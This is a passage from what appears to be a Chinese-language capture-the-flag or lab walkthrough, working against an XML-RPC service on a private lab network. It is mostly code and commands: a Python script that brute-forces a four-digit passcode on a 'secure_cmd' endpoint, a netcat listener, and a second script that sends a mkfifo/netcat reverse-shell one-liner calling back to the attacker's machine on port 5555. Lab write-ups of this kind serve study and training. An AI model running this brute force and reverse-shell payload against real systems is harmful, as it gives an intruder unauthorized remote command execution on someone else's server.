![image-20211124105602436](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211124105602436.png)

成功打印出cpu信息

```
vi b.py
```

![image-20211124112829598](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211124112829598.png)

>import xmlrpc.client
>
>with xmlrpc.client.ServerProxy("http://10.0.2.12:8000/") as proxy:
>
>​	for p in range(1000,10000):
>
>   	r = str(proxy.secure_cmd('whoami',p))
>
>​		if not "Wrong" in r:
>
>​				print(p)
>
>​				print(r)
>
>​				break

```
python3 b.py
```

![image-20211124112719226](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211124112719226.png)

执行成功，passcode为1447

kali端：

```
nc -nvlp 5555
```

![image-20211124141525887](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211124141525887.png)

```
vi c.py
```

![image-20211124141640107](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211124141640107.png)

>import xmlrpc.client
>
>with xmlrpc.client.ServerProxy("http://10.0.2.12:8000/") as proxy:
>    cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.0.2.4 5555 >/tmp/f"
>    r = str(proxy.secure_cmd(cmd,1447))
>    print(r)

```
python3 c.py
```
